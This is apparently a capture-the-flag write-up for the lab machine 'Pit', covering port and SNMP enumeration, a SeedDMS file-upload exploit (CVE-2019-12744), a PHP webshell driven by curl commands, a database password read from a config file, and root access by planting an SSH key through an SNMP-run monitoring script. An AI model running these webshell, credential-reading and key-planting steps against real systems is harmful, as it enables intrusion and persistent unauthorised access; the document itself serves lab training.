




# Pit
## Enumeration
- `nmap`
```
└─$ nmap -p- 10.10.10.241                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 19:04 GMT
Host is up (3.4s latency).
Not shown: 63975 filtered tcp ports (no-response), 1557 filtered tcp ports (host-unreach)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin

Nmap done: 1 IP address (1 host up) scanned in 1608.36 seconds
```
```
└─$ nmap -p22,80,9090 -sC -sV 10.10.10.241 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 19:32 GMT
Nmap scan report for 10.10.10.241 (10.10.10.241)
Host is up (0.33s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
|_http-server-header: nginx/1.14.1
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     Cross-Origin-Resource-Policy: same-origin
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|_    margin: 0 0 10p
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2020-04-16T23:29:12
|_Not valid after:  2030-06-04T16:09:12
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9090-TCP:V=7.94%T=SSL%I=7%D=11/4%Time=65469C95%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,E70,"HTTP/1\.1\x20400\x20Bad\x20request\r\nContent-Type:
SF:\x20text/html;\x20charset=utf8\r\nTransfer-Encoding:\x20chunked\r\nX-DN
SF:S-Prefetch-Control:\x20off\r\nReferrer-Policy:\x20no-referrer\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nCross-Origin-Resource-Policy:\x20same-o
SF:rigin\r\n\r\n29\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20\x20\x20
SF:<title>\r\nb\r\nBad\x20request\r\nd08\r\n</title>\n\x20\x20\x20\x20<met
SF:a\x20http-equiv=\"Content-Type\"\x20content=\"text/html;\x20charset=utf
SF:-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<style>\n\tbody\x
SF:20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20\"RedHatDi
SF:splay\",\x20\"Open\x20Sans\",\x20Helvetica,\x20Arial,\x20sans-serif;\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-size:\x2012px;\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20line-height:\x201\.6666666
SF:7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#333333;\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#
SF:f5f5f5;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20img\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20border:\
SF:x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20vertical-align:\
SF:x20middle;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-w
SF:eight:\x20300;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20p\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20mar
SF:gin:\x200\x200\x2010p")%r(HTTPOptions,E70,"HTTP/1\.1\x20400\x20Bad\x20r
SF:equest\r\nContent-Type:\x20text/html;\x20charset=utf8\r\nTransfer-Encod
SF:ing:\x20chunked\r\nX-DNS-Prefetch-Control:\x20off\r\nReferrer-Policy:\x
SF:20no-referrer\r\nX-Content-Type-Options:\x20nosniff\r\nCross-Origin-Res
SF:ource-Policy:\x20same-origin\r\n\r\n29\r\n<!DOCTYPE\x20html>\n<html>\n<
SF:head>\n\x20\x20\x20\x20<title>\r\nb\r\nBad\x20request\r\nd08\r\n</title
SF:>\n\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20content=\"te
SF:xt/html;\x20charset=utf-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\
SF:"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x
SF:20\x20<style>\n\tbody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20fon
SF:t-family:\x20\"RedHatDisplay\",\x20\"Open\x20Sans\",\x20Helvetica,\x20A
SF:rial,\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20f
SF:ont-size:\x2012px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20lin
SF:e-height:\x201\.66666667;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20color:\x20#333333;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0background-color:\x20#f5f5f5;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20img\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20border:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20vertical-align:\x20middle;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20font-weight:\x20300;\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:}\n\x20\x20\x20\x20\x20\x20\x20\x20p\x20{\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20margin:\x200\x200\x2010p");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 240.41 seconds

```

- Web Server


- Port `9090`


- `gobuster`
```
└─$ gobuster dir -u http://pit.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error       

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pit.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 4057]
```
```
└─$ gobuster dir -u http://dms-pit.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error -t 50

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dms-pit.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/conferences.html     (Status: 403) [Size: 169]
/conferences.txt      (Status: 403) [Size: 169]
/conferences          (Status: 403) [Size: 169]
/conferences.js       (Status: 403) [Size: 169]
/conference.txt       (Status: 403) [Size: 169]
/conference           (Status: 403) [Size: 169]
/conference.js        (Status: 403) [Size: 169]
/conference.html      (Status: 403) [Size: 169]
/conf.txt             (Status: 403) [Size: 169]
/conf.js              (Status: 403) [Size: 169]
/conf.html            (Status: 403) [Size: 169]
/conf                 (Status: 403) [Size: 169]
/config.txt           (Status: 403) [Size: 169]
/config.html          (Status: 403) [Size: 169]
/config               (Status: 403) [Size: 169]
/config.js            (Status: 403) [Size: 169]
/Conferences          (Status: 403) [Size: 169]
/Conferences.txt      (Status: 403) [Size: 169]
/Conferences.html     (Status: 403) [Size: 169]
/Conferences.js       (Status: 403) [Size: 169]
/confused.js          (Status: 403) [Size: 169]
/confused.html        (Status: 403) [Size: 169]
/confused.txt         (Status: 403) [Size: 169]
/confused             (Status: 403) [Size: 169]
/configure            (Status: 403) [Size: 169]
/configure.html       (Status: 403) [Size: 169]
/configure.js         (Status: 403) [Size: 169]
/configure.txt        (Status: 403) [Size: 169]
<SNIP>
```
- Nothing much, so let's check `UDP` ports
```
└─$ sudo nmap -sU -F 10.10.10.241    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 20:25 GMT
Nmap scan report for pit.htb (10.10.10.241)
Host is up (0.18s latency).
Not shown: 78 filtered udp ports (admin-prohibited)
PORT      STATE         SERVICE
49/udp    open|filtered tacacs
88/udp    open|filtered kerberos-sec
111/udp   open|filtered rpcbind
123/udp   open|filtered ntp
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
161/udp   open          snmp
427/udp   open|filtered svrloc
1028/udp  open|filtered ms-lsa
1433/udp  open|filtered ms-sql-s
1434/udp  open|filtered ms-sql-m
1645/udp  open|filtered radius
2222/udp  open|filtered msantipiracy
3283/udp  open|filtered netassistant
4500/udp  open|filtered nat-t-ike
5060/udp  open|filtered sip
10000/udp open|filtered ndmp
31337/udp open|filtered BackOrifice
49154/udp open|filtered unknown
49181/udp open|filtered unknown
49185/udp open|filtered unknown
49190/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 78.83 seconds

```
- `snmpwalk`
```
└─$ snmpwalk -v1 -c public 10.10.10.241 . > snmpwalk
```
```
<SNIP>
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."memory" = INTEGER: 3
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."monitoring" = INTEGER: 27
NET-SNMP-EXTEND-MIB::nsExtendResult."memory" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."monitoring" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."memory".1 = STRING:               total        used        free      shared  buff/cache   available
NET-SNMP-EXTEND-MIB::nsExtendOutLine."memory".2 = STRING: Mem:        4023500      299404     3443512        8764      280584     3487528
NET-SNMP-EXTEND-MIB::nsExtendOutLine."memory".3 = STRING: Swap:       1961980           0     1961980
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".1 = STRING: Database status
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".2 = STRING: OK - Connection to database successful.
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".3 = STRING: System release info
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".4 = STRING: CentOS Linux release 8.3.2011
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".5 = STRING: SELinux Settings
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".6 = STRING: user
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".7 = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".8 = STRING:                 Labeling   MLS/       MLS/                          
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".9 = STRING: SELinux User    Prefix     MCS Level  MCS Range                      SELinux Roles
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".10 = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".11 = STRING: guest_u         user       s0         s0                             guest_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".12 = STRING: root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".13 = STRING: staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".14 = STRING: sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".15 = STRING: system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".16 = STRING: unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".17 = STRING: user_u          user       s0         s0                             user_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".18 = STRING: xguest_u        user       s0         s0                             xguest_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".19 = STRING: login
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".20 = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".21 = STRING: Login Name           SELinux User         MLS/MCS Range        Service
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".22 = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".23 = STRING: __default__          unconfined_u         s0-s0:c0.c1023       *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".24 = STRING: michelle             user_u               s0                   *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".25 = STRING: root                 unconfined_u         s0-s0:c0.c1023       *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".26 = STRING: System uptime
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".27 = STRING:  16:32:31 up  1:42,  0 users,  load average: 0.08, 0.02, 0.01

```
- We have an interesting `seeddms` inside `/var/www/html`
```
<SNIP>
UCD-SNMP-MIB::dskPath.1 = STRING: /
UCD-SNMP-MIB::dskPath.2 = STRING: /var/www/html/seeddms51x/seeddms
UCD-SNMP-MIB::dskDevice.1 = STRING: /dev/mapper/cl-root
UCD-SNMP-MIB::dskDevice.2 = STRING: /dev/mapper/cl-seeddms
<SNIP>
```

- http://dms-pit.htb/seeddms51x/seeddms/



## Foothold/User
- Combination of `michelle:michelle` creds work



- If we open `Upgrade Note`, we can download `Changelog`
  - It indicates that `SeedDMS` is version `5.1.15`
  - We only have `CVE-2019-12744`
    - Which is fixed by [.htaccess](https://httpd.apache.org/docs/2.4/howto/htaccess.html)
    - But `Nginx` does not use `.htaccess` files as `Apache` does.
    - And we do have http://dms-pit.htb/seeddms51x/data/.htaccess file
  - So we could potentially exploit it via `CVE-2019-12744`
  - We just need to find a way to upload files





- Upload a `shell.php`


- Check the `id` of the document and visit
  - `http://dms-pit.htb/seeddms51x/data/1048576/<ID>/1.php?cmd=id`
```
└─$ curl http://dms-pit.htb/seeddms51x/data/1048576/29/1.php?cmd=id
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0

```

- Unfortunately, we can't spawn a reverse shell
  - So we have to enumerate the box this way
  - We have a `settings.xml` in web directory
```
└─$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php --data-urlencode 'cmd=pwd'
/var/www/html/seeddms51x/data/1048576/31
```
```
└─$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php --data-urlencode 'cmd=ls ../../../'
conf
data
pear
seeddms
www
```
```
└─$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php --data-urlencode 'cmd=ls ../../../conf/'
settings.xml
settings.xml.template
stopwords.txt
```

- We have creds
```
<SNIP>
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
    <!-- smtpServer: SMTP Server hostname
       - smtpPort: SMTP Server port
       - smtpSendFrom: Send from
    -->    
<SNIP>
```

- Unfortunately we can't `ssh`
  - But we can login to service on port `9090`


- There's a terminal window we can access


## Root
- as `michelle` I can only list only `michelle`'s processes
```
[michelle@pit /]$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 245492 14244 ?        Ss   Nov04   0:15 /usr/lib/systemd/systemd --switched-root --system --deserialize 17
michelle   11362  0.0  0.0  27404   520 ?        Ss   08:02   0:00 /usr/bin/ssh-agent
michelle   11365  0.0  0.2  94020  9820 ?        Ss   08:02   0:00 /usr/lib/systemd/systemd --user
michelle   11369  0.0  0.1 314760  5152 ?        S    08:02   0:00 (sd-pam)
michelle   11375  0.2  0.6 494604 27104 ?        Rl   08:02   0:03 cockpit-bridge
michelle   11563  0.0  0.0  24100  3904 pts/0    Ss   08:03   0:00 /bin/bash
michelle   12799  0.0  0.0  58696  4000 pts/0    R+   08:26   0:00 ps auxww
```

- But we saw the list of processes via `snmp`
```
<SNIP>
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
<SNIP>
```

- The string indicates we could possibly perform `rce`
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce
  - https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/
- The file itself can be executed as `root`
  - And it's a shell script
```
[michelle@pit /]$ ls -lha /usr/bin/monitor
-rwxr--r--. 1 root root 88 Apr 18  2020 /usr/bin/monitor
```
```
[michelle@pit /]$ file /usr/bin/monitor
/usr/bin/monitor: Bourne-Again shell script, ASCII text executable
```
```
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

- Let's check `/usr/local/monitoring`
  - It has `+` at the of the permissions
  - `getfacl` shows that `michelle` can write and execute from the directory
```
[michelle@pit /]$ ls -lhd /usr/local/monitoring
drwxrwx---+ 2 root root 101 Nov  5 08:30 /usr/local/monitoring
```
```
[michelle@pit /]$ getfacl /usr/local/monitoring/
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring/
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---
```

- I'll create a script which will write my `ssh` key to `root`'s `authorized_keys`
  - And spawn it from `snmp`
  - The output looks good
  - And now we can get our flag 
```
[michelle@pit monitoring]$ echo 'echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo<SNIP> kali@kali" >> /root/.ssh/authorized_keys' > check_key.sh
```
```
└─$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendCommand."memory" = STRING: /usr/bin/free
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
NET-SNMP-EXTEND-MIB::nsExtendArgs."memory" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."memory" = STRING: 
<SNIP>
```

